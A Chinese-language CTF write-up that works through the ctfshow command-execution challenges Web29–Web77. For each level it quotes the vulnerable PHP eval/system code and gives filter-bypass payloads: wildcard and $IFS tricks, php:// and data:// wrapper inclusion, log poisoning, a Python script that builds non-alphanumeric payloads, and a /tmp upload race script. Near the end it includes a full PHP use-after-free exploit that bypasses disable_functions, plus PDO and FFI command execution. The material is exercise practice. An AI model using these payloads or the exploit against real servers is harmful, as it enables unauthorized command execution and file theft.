

Web29
信息搜集
进入页面即可获得源码
<?php
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date: 2020-09-04 00:12:34
# @Last Modified by: h1xa
# @Last Modified time: 2020-09-04 00:26:48
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
error_reporting(0);
if(isset($_GET['c'])){
$c = $_GET['c'];
if(!preg_match("/flag/i", $c)){
eval($c);
}
}else{
highlight_file(__FILE__);
}
思路分析
从源码中，我们看出这里很明显是命令执行漏洞。因为，因为有eval方法的存在。同时，我们需要注意有一个过滤，会如果匹配到flag，则无法执行eval方法。所以，我们的问题是，如何既能触发eval，又能读取文件呢？
payload构造
这里，主要有两种思路。
思路一：使用’’绕过
echo `ln f''l''ag.php`
通配符
payload1:c=system("nl fla?????");
payload2:c=system("nl fla*");
payload3:c=echo `nl fl''ag.php`;或者c=echo `nl fl“”ag.php`;
payload4:c=echo `nl fl\ag.php`;//转义字符绕过
payload5:c=include($_GET[1]);&1=php://filter/read=convert.base64-encode/resource=flag.php
payload6:c=eval($_GET[1]);&1=system('nl flag.php');
payload7:c=awk '{printf $0}' flag.php||
还有很多姿势，毕竟等于没过滤
我们来分析一下，我们知道eval是将字符串当作php代码执行。而echo 与反单引号结合，则会将反引号中的内容当作命令执行。而我们的环境为Linux。所以，我们在此使用linux的命令。首先，ln是将文件的内容显示并输出行数。然后，这里完全可以用cat、less、more代替。
在linux中’’被忽略，至于通配符，我再linux初步学习中已经说过了。
思路2：多变量绕过
/?c=eval($_GET['a']);&a=nl flag.php;
Web30
与上一题基本相同
system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
反引号 同shell_exec()
Web31
源码
error_reporting(0);
if(isset($_GET['c'])){
$c = $_GET['c'];
if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
eval($c);
}
}else{
highlight_file(__FILE__);
}
思路
可以看到cat被过滤，cat的代替
more，一页页的查看
less，类似与more，但是它不会一下子将文件全部读取，而是需要多少读多少
tac，反向读取
vi，vim 都是linux自带的编辑器
nl, 输出文件内容，并输出行号
head，从头部输出信息
tail，从尾部输出内容
grep [选项] 查找内容 源文件
od:以二进制的方式读取档案内容（新学到的）
空格被过滤：
{$IFS} $IFS$9
> < <> 重定向符
%09(需要php环境)
{cat,flag.php} //用逗号实现了空格功能
%20
https://blog.csdn.net/whuslei/article/details/7187639
payload
c=eval($_GET[1]);&1=system('nl flag.php');
c=highlight_file(next(array_reverse(scandir(dirname(__FILE__)))));
c=show_source(next(array_reverse(scandir(pos(localeconv())))));
c=echo(`nl%09fl[abc]*`);
c="\x73\x79\x73\x74\x65\x6d"("nl%09fl[a]*");等价于system()
c=echo`strings%09f*`;
c=echo`strings\$IFS\$9f*`必须加转义字符
上面便是大佬的payload。
我们一一分析一下，第一个没什么好说的。
c=highlight_file(next(array_reverse(scandir(dirname(FILE)))));
dirname(FILE)
参考链接https://www.awaimai.com/408.html
dirname(FILE)获得当前文件的绝对路径。__FILE__是当前脚本的绝对路径，通过 dirname() 函数后，就可以获得脚本所在目录的绝对路径。
举个栗子，有个 hello.php 文件，其部署在服务器的目录是：/home/www/website/hello.php
那么， FILE 的值就是：/home/www/website/hello.php
dirname(FILE) 返回就是：/home/www/website/
如果我们在 hello.php 用 __DIR__全局变量，就可以直接获得所在目录的绝对路径：/home/www/website/，和 dirname(FILE) 效果完全一样。
在实现同样功能的情况下，dirname(FILE)多了一层函数调用。所以， DIR 比 dirname(FILE) 在效率上有优势。
但是，
FILE 和 dirname() 函数从 PHP 4.0.2 就开始启用。
DIR 变量则是 PHP5.3.0 新增的。
所以，如果你的PHP版本大于等于PHP5.3.0，建议使用 __DIR__。否则，最好还是用 dirname(FILE)，以确保程序不会出错。
scandir()
scandir(string $directory, int $sorting_order = ?, resource $context = ?): array
返回一个 array，包含有 directory 中的文件和目录。
参数
directory
要被浏览的目录
sorting_order
默认的排序顺序是按字母升序排列。如果使用了可选参数 sorting_order（设为 1），则排序顺序是按字母降序排列。
context
context
array_reverse
array_reverse() 接受数组 array 作为输入并返回一个单元为相反顺序的新数组。
next
返回数组内部指针指向的下一个单元的值，或当没有更多单元时返回 false。
highlight_file
使用PHP内置的语法高亮器所定义的颜色，打印输出或者返回 filename 文件中语法高亮版本的代码。
综合
首先，获得文件所在的目录。然后，将其数组化，之后逆序。然后，进入下一个文件名，再使用一个highlight_file获得文件内容。
至于，大佬为什么要逆置，可能是因为scanndir返回的数组中第0个和第1个为 ./..。
c=show_source(next(array_reverse(scandir(pos(localeconv())))));
参考链接：https://www.cxyzjd.com/article/qq_38154820/107171940
这篇文章，记录了很多无参读取文件的方法，值得读一下。
pos(localeconv())
localeconv
localeconv()返回一包含本地数字及货币格式信息的数组。而数组第一项就是”.”（后续出现的.都用双引号包裹，方便识别）

要怎么取到这个点呢，另一个函数：
current()返回数组中的单元，默认取第一个值：
还可以使用pos是current的别名
如果都被过滤还可以使用reset()，该函数返回数组第一个单元的值，如果数组为空则返回 FALSE
综合
剩下的与第二条语句类似，这里不赘述了。
其基本思想都基本相同，主要就是如何获得目前目录的地址。我们这里有两个方式，一个是通过绝对路径。即，dirname(FILE)。二是，通过相对路径，即“.”。问题就是我们在做题时一般来说，“.”都会被过滤。所以，我们就通过localeconv()的方式来取得”.”。
c=”\x73\x79\x73\x74\x65\x6d”(“nl%09fl[a]*”);等价于system()
这里使用了\x 在php中会将这个16进制数解码
c=echostrings\$IFS\$9f*必须加转义字符
这里的strings其实可以简单理解为读取一段字符串，一般以换行符，或者空字符为结束。
$IFS$9
$IFS 默认为空字符，空格tab换行符，这里我的理解为将其设为空格。
Web32
过滤
反引号、括号，echo。
知识点：include可以不需要括号所以 分号可以用?>代替
c=include$_GET[1]?>&1=php://filter/read=convert.base64-
encode/resource=flag.php
c=include$_GET[1]?>&1=data://text/plain,<?php system("cat flag.php");?>
c=include$_GET[1]?>&1=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==
这一部分牵扯到文件包含漏洞。于是，直接跑过去写一篇文件包含漏洞的文章。
Web33
过滤
多过滤了一个双引号，
payload
?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
?c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
Web34
过滤多了一个冒号，也是上一关payload 。
Web35
多过滤了<、=。没啥用，直接还是原来的。
Web36
多过滤了数字。
c=include$_GET[a]?%3E&a=php://filter/read=convert.base64-encode/resource=flag.php
Web37
if(isset($_GET['c'])){
$c = $_GET['c'];
if(!preg_match("/flag/i", $c)){
include($c);
echo $flag;
}
}else{
highlight_file(__FILE__);
}
伪协议用起来。
c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==
c=data://text/plain,<?php system("nl fla*");?>
c=/var/log/nginx/access.log
日志包含配合UA头解决战斗
发送UA<?php system('cat flag.php'); ?>
Web38
增加了php/file的过滤
payload与上一个相同。
Web40
if(isset($_GET['c'])){
$c = $_GET['c'];
if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
eval($c);
}
}else{
highlight_file(__FILE__);
}
这里过滤了，数字和几乎所有字符，但是()和字母没有被过滤。我们可以使用web31的方法。
c=show_source(next(array_reverse(scandir(pos(localeconv())))));
Web41
这里几乎过滤所有的参数，所以我们需要使用无字母无数字payload。这里，相关的知识点，我已经写了。
这里直接给脚本吧。
import re
import requests
url="http://a228128e-be2b-45ec-8926-4e36a576fcec.challenge.ctf.show:8080"
a=[]
ans1=""
ans2=""
for i in range(0,256):
c=chr(i)
tmp = re.match(r'[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-',c, re.I)
if(tmp):
continue
#print(tmp.group(0))
else:
a.append(i)
# eval("echo($c);");
mya="system" #函数名 这里修改！
myb="cat flag.php" #参数
def myfun(k,my):
global ans1
global ans2
for i in range (0,len(a)):
for j in range(i,len(a)):
if(a[i]|a[j]==ord(my[k])):
ans1+=chr(a[i])
ans2+=chr(a[j])
return;
for k in range(0,len(mya)):
myfun(k,mya)
data1="(\""+ans1+"\"|\""+ans2+"\")"
ans1=""
ans2=""
for k in range(0,len(myb)):
myfun(k,myb)
data2="(\""+ans1+"\"|\""+ans2+"\")"
data={"c":data1+data2}
print(data)
r=requests.post(url=url,data=data)
print(r.text)
Web42
if(isset($_GET['c'])){
$c=$_GET['c'];
system($c." >/dev/null 2>&1");
}else{
highlight_file(__FILE__);
}
/dev/null 2>&1，让所有的输出流（包括错误的和正确的）都定向到空设备丢弃
所以不能让后面执行，所以需要把后面截断ls;%0a,后面不用多说了吧,还可以用%26以及||
ctfshow{0214fa6a-dad0-4619-bc81-58d9fed305e1}
c=cat flag.php||
c=cat flag.php%0a(回车)
c=cat flag.php;%26(&)
Web43
if(isset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match("/\;|cat/i", $c)){
system($c." >/dev/null 2>&1");
}
}else{
highlight_file(__FILE__);
}
;和cat被过滤。用||即可，读取命令有很多，这里不赘述。
c=tac flag.php||
Web44
if(isset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match("/;|cat|flag/i", $c)){
system($c." >/dev/null 2>&1");
}
}else{
highlight_file(__FILE__);
}
这里过滤了flag，使用通配符即可。
c=nl%20fl*%0a
Web45
if(isset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match("/\;|cat|flag| /i", $c)){
system($c." >/dev/null 2>&1");
}
}else{
highlight_file(__FILE__);
}
这里过滤了空格。
多过滤了一个空格，总所周知php环境下可以用%09代题空格
c=nl%09fl*%0a
或者使用内联执行
c=echonl\$IFS*%0A
Web46
if(isset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
system($c." >/dev/null 2>&1");
}
}else{
highlight_file(__FILE__);
}
这里多过滤了数字，*。我们可以使用通配符?，同时还可以使用’’””
c=nl%09fla?????||
c=nl%09fla''g.php||
c=nl%09fla""g.php||
Web47，48
多过滤一些命令。上面的payload仍可以使用。
Web49
payload1:c=nl%09fla\g.php||s
payload2:c=nl%09fla\g.php%0a
payload3:c=nl%09fla''g.php%0a
payload4:c=nl%09fla""g.php%0a
payload5:c=vi%09fla\g.php%0a
payload6:c=tac%09fla\g.php%0a
payload7:c=uniq%09fla\g.php%0a
payload8:c=nl<fla''g.php||
payload9:c=nl%09fla\g.php%26
Web51
过滤了%09
c=nl<fla’’g.php||
Web52
过滤了%问题不大用上一个。
Web53
|cat|flag| |[0-9]|*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|`|%|\x09|\x26|>|</i
过滤一些空格字符，但是$没有被过滤。
c=nl$IFS\fla?????||
c=nl${IFS}\fla?????||
flag为假，我们看一下根目录
c=nl${IFS}/
之后，查看flag：c=nl${IFS}/fla’’g||
<?php
if(isset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
echo($c);
$d = system($c);
echo "<br>".$d;
}else{
echo 'no';
}
}else{
highlight_file(__FILE__);
}
这里不用截断了。
nl$IFS\fla?????
c=nl${IFS}\fla?????
Web54
<?php
/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date: 2020-09-05 20:49:30
# @Last Modified by: h1xa
# @Last Modified time: 2020-09-07 19:43:42
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
if(isset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
system($c);
}
}else{
highlight_file(__FILE__);
}
过滤了一些常用的查看命令，但是我们可以使用通配符。
这里是使用的cat命令 cat命令是存在/bin/cat 因为默认配置了环境变量使用才可以直接使用cat 但是实际上cat是可以使用 /bin/cat.
所以payolad为 /bin/c??$IFS????????
Web55-56
https://blog.csdn.net/qq_46091464/article/details/108513145
这题还是去看大佬的文章吧，讲的很清楚。我在这里就该书一下吧。
首先，我们在post一个文件时，操作系统会将其暂时储存在/tmp/php??????一般后面的6个字符是随机生成的有大小写。
而在linux中.可以执行文件。于是，我们可以post文件的同时，去调用这个文件，从而形成条件竞争。而文件中的内容便可以是，获取flag的命令。
下面给出脚本
import requests
while True:
url = "http://f2b03d51-a47b-4e19-88d5-f400b8e6a711.challenge.ctf.show/?c=.+/???/????????[@-[]"
r = requests.post(url, files={"file": ('1.php', b'cat flag.php')})
if r.text.find("flag") >0:
print(r.text)
break
web57
<?php
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date: 2020-09-05 20:49:30
# @Last Modified by: h1xa
# @Last Modified time: 2020-09-08 01:02:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
system("cat ".$c.".php");
}
}else{
highlight_file(__FILE__);
}
这个题的目的就是构造36，这里没有过滤$，我们知道$一般代表变量。
而在linux中，$(())代表数学运算。可以看到，$(())为0，$((~$(())))为-1，所以我们可以先相加再取反
[root@VM-16-16-centos ~]# echo $(())
0
[root@VM-16-16-centos ~]# echo ~$(())
~0
[root@VM-16-16-centos ~]# echo $(( ~$(())))
-1
[root@VM-16-16-centos ~]# echo ~$(($(( ~$(())))+$(( ~$(())))))
~-2
payload
$((~$(($(( ~$(())))+$(( ~$(())))+$(( ~$(())))+$(( ~$(())))$(( ~$(())))+$(( ~$(())))+$(( ~$(())))+$(( ~$(())))$(( ~$(())))+$(( ~$(())))+$(( ~$(())))+$(( ~$(())))$(( ~$(())))+$(( ~$(())))+$(( ~$(())))+$(( ~$(())))$(( ~$(())))+$(( ~$(())))+$(( ~$(())))+$(( ~$(())))$(( ~$(())))+$(( ~$(())))+$(( ~$(())))+$(( ~$(())))$(( ~$(())))+$(( ~$(())))+$(( ~$(())))+$(( ~$(())))$(( ~$(())))+$(( ~$(())))+$(( ~$(())))+$(( ~$(())))$(( ~$(())))+$(( ~$(())))+$(( ~$(())))+$(( ~$(())))+$((~$(())))))))
web58-66
我们输入system之类的会被过滤，所以应为disable_functions的绕过。
所以，我们直接使用Web31的方式。此外还有多种方式，读取文件。
c=copy("flag.php","flag.txt");
c=rename("flag.php","flag1.txt");
c=readfile("flag.txt");
c=print_r(file("flag.php")); //过59将其变为了数组。
c=include($_GET[1]); ?1=php://filter/read/convert.base64-encode/resource=flag.txt
c=show_source('flag.php');
c=include('flag.php');echo $flag;
c=include('flag.php');var_dump(get_defined_vars()); // 输出已经被定义的变量
也可以使用curl模拟get/pot
翻来覆去的就这些。换着用得了。
web66-70
老套路，获得后，提示没有在flag.php中，所以我们可以var_dump(scandir(/));查找，发现再根目录。
hightlight_file('/flag.txt');
c=include('/flag.txt'); // 因为是txt文件，包含后直接显示
c=require_once('/flag.txt');
c=require('/flag.txt');
web71
rror_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
$c= $_POST['c'];
eval($c);
$s = ob_get_contents(); // 获得缓冲区内容
ob_end_clean(); // 清空缓冲区内容
echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
highlight_file(__FILE__);
}
?>
web72
首先找到路径
c=$a=opendir("glob:///*"); while (($file = readdir($a)) !== false){echo $file . "<br>"; };include("flagx.txt");exit();
获得路径后，使用之后的脚本，并将其url编码。这里主要是绕过basedir
<?php
function ctfshow($cmd) {
global $abc, $helper, $backtrace;
class Vuln {
public $a;
public function __destruct() {
global $backtrace;
unset($this->a);
$backtrace = (new Exception)->getTrace();
if(!isset($backtrace[1]['args'])) {
$backtrace = debug_backtrace();
}
}
}
class Helper {
public $a, $b, $c, $d;
}
function str2ptr(&$str, $p = 0, $s = 8) {
$address = 0;
for($j = $s-1; $j >= 0; $j--) {
$address <<= 8;
$address |= ord($str[$p+$j]);
}
return $address;
}
function ptr2str($ptr, $m = 8) {
$out = "";
for ($i=0; $i < $m; $i++) {
$out .= sprintf("%c",($ptr & 0xff));
$ptr >>= 8;
}
return $out;
}
function write(&$str, $p, $v, $n = 8) {
$i = 0;
for($i = 0; $i < $n; $i++) {
$str[$p + $i] = sprintf("%c",($v & 0xff));
$v >>= 8;
}
}
function leak($addr, $p = 0, $s = 8) {
global $abc, $helper;
write($abc, 0x68, $addr + $p - 0x10);
$leak = strlen($helper->a);
if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
return $leak;
}
function parse_elf($base) {
$e_type = leak($base, 0x10, 2);
$e_phoff = leak($base, 0x20);
$e_phentsize = leak($base, 0x36, 2);
$e_phnum = leak($base, 0x38, 2);
for($i = 0; $i < $e_phnum; $i++) {
$header = $base + $e_phoff + $i * $e_phentsize;
$p_type = leak($header, 0, 4);
$p_flags = leak($header, 4, 4);
$p_vaddr = leak($header, 0x10);
$p_memsz = leak($header, 0x28);
if($p_type == 1 && $p_flags == 6) {
$data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
$data_size = $p_memsz;
} else if($p_type == 1 && $p_flags == 5) {
$text_size = $p_memsz;
}
}
if(!$data_addr || !$text_size || !$data_size)
return false;
return [$data_addr, $text_size, $data_size];
}
function get_basic_funcs($base, $elf) {
list($data_addr, $text_size, $data_size) = $elf;
for($i = 0; $i < $data_size / 8; $i++) {
$leak = leak($data_addr, $i * 8);
if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
$deref = leak($leak);
if($deref != 0x746e6174736e6f63)
continue;
} else continue;
$leak = leak($data_addr, ($i + 4) * 8);
if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
$deref = leak($leak);
if($deref != 0x786568326e6962)
continue;
} else continue;
return $data_addr + $i * 8;
}
}
function get_binary_base($binary_leak) {
$base = 0;
$start = $binary_leak & 0xfffffffffffff000;
for($i = 0; $i < 0x1000; $i++) {
$addr = $start - 0x1000 * $i;
$leak = leak($addr, 0, 7);
if($leak == 0x10102464c457f) {
return $addr;
}
}
}
function get_system($basic_funcs) {
$addr = $basic_funcs;
do {
$f_entry = leak($addr);
$f_name = leak($f_entry, 0, 6);
if($f_name == 0x6d6574737973) {
return leak($addr + 8);
}
$addr += 0x20;
} while($f_entry != 0);
return false;
}
function trigger_uaf($arg) {
$arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
$vuln = new Vuln();
$vuln->a = $arg;
}
if(stristr(PHP_OS, 'WIN')) {
die('This PoC is for *nix systems only.');
}
$n_alloc = 10;
$contiguous = [];
for($i = 0; $i < $n_alloc; $i++)
$contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
trigger_uaf('x');
$abc = $backtrace[1]['args'][0];
$helper = new Helper;
$helper->b = function ($x) { };
if(strlen($abc) == 79 || strlen($abc) == 0) {
die("UAF failed");
}
$closure_handlers = str2ptr($abc, 0);
$php_heap = str2ptr($abc, 0x58);
$abc_addr = $php_heap - 0xc8;
write($abc, 0x60, 2);
write($abc, 0x70, 6);
write($abc, 0x10, $abc_addr + 0x60);
write($abc, 0x18, 0xa);
$closure_obj = str2ptr($abc, 0x20);
$binary_leak = leak($closure_handlers, 8);
if(!($base = get_binary_base($binary_leak))) {
die("Couldn't determine binary base address");
}
if(!($elf = parse_elf($base))) {
die("Couldn't parse ELF header");
}
if(!($basic_funcs = get_basic_funcs($base, $elf))) {
die("Couldn't get basic_functions address");
}
if(!($zif_system = get_system($basic_funcs))) {
die("Couldn't get zif_system address");
}
$fake_obj_offset = 0xd0;
for($i = 0; $i < 0x110; $i += 8) {
write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
}
write($abc, 0x20, $abc_addr + $fake_obj_offset);
write($abc, 0xd0 + 0x38, 1, 4);
write($abc, 0xd0 + 0x68, $zif_system);
($helper->b)($cmd);
exit();
}
ctfshow("cat /flag0.txt");ob_end_flush();
?>
web73-74
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);
include('/flag.txt');exit();
web75-76
读文件，使用mysql load_file
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row)
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-
>getMessage();exit(0);}exit(0);
web77
貌似用到了php7.4的新特性，再说吧，有空再研究研究。
c=$ffi=FFI::cdef("int system(char *command);", "libc.so.6");$a='/readflag > 1.txt';$ffi->system($a);exit();